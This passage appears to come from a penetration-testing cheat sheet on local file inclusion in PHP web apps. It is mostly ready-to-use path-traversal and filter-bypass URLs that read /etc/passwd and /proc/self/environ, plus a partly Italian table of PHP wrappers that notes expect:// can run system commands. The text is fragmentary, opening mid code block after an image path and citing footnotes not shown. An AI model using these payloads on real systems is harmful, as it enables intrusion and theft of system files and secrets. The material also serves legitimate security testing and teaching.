 ```bash

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd

## Filter bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
``` 
- [Evading Restrictions](Evading%20Restrictions.md)
- [Zip slip](Insecure%20File%20Upload.md#Zip%20slip)


### Using /proc/self/ to enumerate the process

```bash
http://10.11.0.22/menu.php?file=../../../../../../proc/self/cmdline      # Cmd line used to execute the process
http://10.11.0.22/menu.php?file=../../../../../../proc/self/environ      # Enviroment variables for the current process
http://10.11.0.22/menu.php?file=../../../../../../proc/self/cwd          # Current working directory for the current process
```

### PHP wrappers and filters

[PHP wrappers](https://www.php.net/manual/en/wrappers.php) are meta-protocols used by the language to process info other than the HTTP protocol. They could be useful to bypass a whitelist defense in XPath - LFI/RFI exploitation.

| PHP Wrapper | Utilizzo                                                                                                                |
| ----------- | ----------------------------------------------------------------------------------------------------------------------- |
| file://     | Accesso a risorse locali del filesystem                                                                                 |
| http://     | Accesso a risorse HTTP                                                                                                  |
| ftp://      | Accesso a risorse FTP                                                                                                   |
| php://      | Accesso a strem I/O in PHP                                                                                              |
| zlib://     | Accesso a risorse compresse                                                                                             |
| data://     | Accesso a stream di vario tipo (base64, …)                                                                              |
| glob://     | Lettura di directory tramite utilizzo di pattern                                                                        |
| phar://     | Accesso ad archivi PHP                                                                                                  |
| ssh2://     | Accesso a risorse tramite SSH2                                                                                          |
| rar://      | Accesso a risorse compresse in RAR                                                                                      |
| ogg://      | Accesso a risorse audio di questo tipo                                                                                  |
| expect://   | Accesso a processi stdio, stdout e stderr via PTY. Consente l’esecuzione di comandi di sistema. Non abilitato di defult |


[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)
[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com
